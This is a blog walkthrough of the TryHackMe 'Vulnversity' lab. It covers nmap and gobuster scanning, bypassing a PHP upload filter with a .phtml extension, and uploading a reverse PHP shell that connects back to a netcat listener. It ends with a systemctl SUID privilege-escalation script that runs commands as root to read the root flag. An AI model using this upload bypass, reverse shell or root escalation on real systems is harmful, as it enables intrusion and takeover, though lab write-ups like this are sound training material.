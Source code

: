 ```yaml
---
title: "Vulnversity - TryHackMe"
author: krishna
description: "Walkthrough of Vulnversity from TryHackMe"
date: 2020-10-16 22:22:22 +0530
categories: [security, tryhackme]
tags: [writeup]
---
```


**[Vulnversity from TryHackMe](https://tryhackme.com/room/vulnversity)**

## Task 1 - Deploy the machine

deployment B), lezz go

## Task 2 - Reconnaissance

1. Scan this box: `nmap -sV <machines ip>`

	![nmap scan results](https://raw.githubusercontent.com/lordlabuckdas/lordlabuckdas.github.io/gh-pages/assets/img/tryhackme/vulnversity/vuln1.png)

2. Scan the box, how many ports are open?

	`6`

3. What version of the squid proxy is running on the machine?

	`3.5.12`

4. How many ports will nmap scan if the flag -p-400 was used?

	`400`

5. Using the nmap flag -n what will it not resolve?

	`DNS`

6. What is the most likely operating system this machine is running?

	`Ubuntu`

7. What port is the web server running on?

	`3333`

8. Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)

## Task 3 - Locating directories using GoBuster

1. Now lets run GoBuster with a wordlist: `gobuster dir -u http://<ip>:3333 -w <word list location>`

	![gobuster help](https://raw.githubusercontent.com/lordlabuckdas/lordlabuckdas.github.io/gh-pages/assets/img/tryhackme/vulnversity/vuln2.png)

2. What is the directory that has an upload form page?

	![go gobuster](https://raw.githubusercontent.com/lordlabuckdas/lordlabuckdas.github.io/gh-pages/assets/img/tryhackme/vulnversity/vuln3.png)
	
	`/internal/`

	![/internal/index.php](https://raw.githubusercontent.com/lordlabuckdas/lordlabuckdas.github.io/gh-pages/assets/img/tryhackme/vulnversity/vuln4.png)

## Task 4 - Compromise the webserver

1. Try upload a few file types to the server, what common extension seems to be blocked?

	on uploading a `.php` file,
	
	![hey not allowed](https://raw.githubusercontent.com/lordlabuckdas/lordlabuckdas.github.io/gh-pages/assets/img/tryhackme/vulnversity/vuln5.png)

2. To identify which extensions are not blocked, we're going to fuzz the upload form. To do this, we're doing to use BurpSuite. If you are unsure to what BurpSuite is, or how to set it up please complete our [BurpSuite room](https://tryhackme.com/room/rpburpsuite) first.

	*sucks that the burpsuite room is only for subscribers*

3. Make a wordlist of different php extensions. Use **burpsuite** to send the upload POST request to `intruder` and add *that dollar-like sign* at appropriate places. Then start the attack.

	```shell
	$ cat phpext_list.txt
	.php
	.php3
	.php4
	.php5
	.phtml
	```

	for some reason, the **intruder**'s sniper attack did not work for me i.e. gave the same response for all extensions. So, upon trying them manually, we get success for **`.phtml`**

4. A reverse php shell is given [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and change the value of the IP to your IP from the `tun0` interface. Change the extension to `.phtml`. Listen on `1234` through `netcat` with the command `nc -vlnp 1234`. Then upload the shell file, navigate to the file by going to the file URL, `http://$MACHINE_IP:3333/internal/uploads/php_rev_shell.phtml` to make the machine execute your file.

	when we go to the URL,

	![boom access](https://raw.githubusercontent.com/lordlabuckdas/lordlabuckdas.github.io/gh-pages/assets/img/tryhackme/vulnversity/vuln6.png)

	now, we have spawned a shell

5. What is the name of the user who manages the webserver?

	the home folders for users are created at `/home/`. `ls /home/` shows us that a user, **`bill`** exists.

6. What is the user flag?

	![yea flag B)](https://raw.githubusercontent.com/lordlabuckdas/lordlabuckdas.github.io/gh-pages/assets/img/tryhackme/vulnversity/vuln7.png)

## Task 5 - Privilege Escalation 

1. intro to SUID. find all binaries with SUID.

	to find all such binaries, we can run `find / -perm -4000 2>/dev/null`

		* `find` to search

		* `/` to start from the topmost directory

		* `-perm` to specify permission value

		* `-4000` to specify SUID permission value of exactly 4000

		* `2 > /dev/null` to hide all the errors by redirecting stderr to null stream

	![sweet suid](https://raw.githubusercontent.com/lordlabuckdas/lordlabuckdas.github.io/gh-pages/assets/img/tryhackme/vulnversity/vuln8.png)

	`/bin/systemctl` is of importance here as you will see in the next question

2. Its challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer? Become root and get the last flag (/root/root.txt)

	[gtfobins](https://gtfobins.github.io/) is a curated list of unix binaries that can be used for privilege escalation

	[this](https://gtfobins.github.io/gtfobins/systemctl/) gtfobins article on **systemctl** tells us how to exploit it to run any command as superuser

	so taking inspiration from that, we can do this

	```bash
	$ RFLAG=$(mktemp).service
	$ echo '[Service]
	  Type=oneshot
	  ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/theFLAG"
	  [Install]
	  WantedBy=multi-user.target' > $RFLAG
	$ /bin/systemctl link $RFLAG
	$ /bin/systemctl enable --now $RFLAG
	```

	then to view the flag, `cat /tmp/theFLAG`

	![yea root flag B)](https://raw.githubusercontent.com/lordlabuckdas/lordlabuckdas.github.io/gh-pages/assets/img/tryhackme/vulnversity/vuln9.png)